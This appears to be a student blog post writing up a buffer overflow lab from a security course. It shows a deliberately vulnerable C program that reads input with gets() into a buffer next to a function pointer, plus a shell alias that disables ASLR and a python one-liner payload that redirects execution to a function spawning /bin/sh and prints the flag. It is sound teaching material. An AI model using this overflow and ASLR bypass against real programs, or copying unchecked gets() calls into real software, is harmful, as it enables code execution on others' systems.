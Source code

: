 ```yaml
---
title: "Buffer Overflow - 2"
date: 2019-07-12T03:00:39+10:00

categories: ["Extended Security", "Musings"]

hiddenFromHomePage: false
postMetaInFooter: false

flowchartDiagrams:
  enable: false
  options: ""

sequenceDiagrams: 
  enable: false
  options: ""

---
```


# Code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win(void) {
	printf("Oh noe; my code flow\n");
	system("/bin/sh");
}
void lose(void) {
	system("/usr/games/cowsay `/usr/games/fortune`");
}

int main(int argc, char** argv) {
	// setup local variables
	void (*function)(void) = lose;
	char buffer[64];

    // Print hints
	printf("The winning function is at %p\n",win);
	printf("Do you remember how function pointers work ?\n");

    // get user input, save to buffer
	gets(&buffer);

    // jump to function
	printf("Preparing to jump to %p\n",function);
	fflush(stdout);
	function();

	return EXIT_SUCCESS;
}
```

# Analysis

Similar to the [previous example](../buffer-overflow-01), we need to overflow the `buffer` array and overwrite the address that `function` points to.

To our conventience, line 19 gives us the address to the `win` function - We just need to write this address through the buffer overflow attack.  
Note that we'll write this backwards due to the little endian memory structure of most systems.

_If line 19 **didn't** exist, we could use other methods to determine the function address of `win`. For example, we could use `objdump -d ./whereami` to find a delta/offset from a known address of another function._

## Address Space Layout Randomization (ASLR)

As you run the program, you would see that the address of the `win` function changes each time.

`The winning function is at 0x566261d9`  
`The winning function is at 0x565ad1d9`  
`The winning function is at 0x5663d1d9`  
`The winning function is at 0x565821d9`  
`The winning function is at 0x565e51d9`  
`The winning function is at 0x566481d9`  

This is a security feature to _(attempt to)_ prevent malicious access to the memory of programs. For example, it would _(attempt to)_ stop someone from modifying a hardcoded memory address of another program.  
But I say attempt, because there are always ways around things.

Take me for example, I don't want to keep typing in new `win` addresses - so why not disable ASLR for the duration of the program!

Here's a shell alias that I use to momentarily disable ASLR.

> `alias aslr='setarch ``uname -m`` -R'`

Simply just prepend it to any command.

For me, it made the winning function _always_ `0x565561d9`.  

```bash
python -c 'print("\x00"*64 + "\xd9\x61\x55\x56")' | aslr ./whereami

---

The winning function is at 0x565561d9
Do you remember how function pointers work ?
Preparing to jump to 0x565561d9
Oh noe; my code flow
COMP6841{Oh_Look_Youre_So_1337_now}
```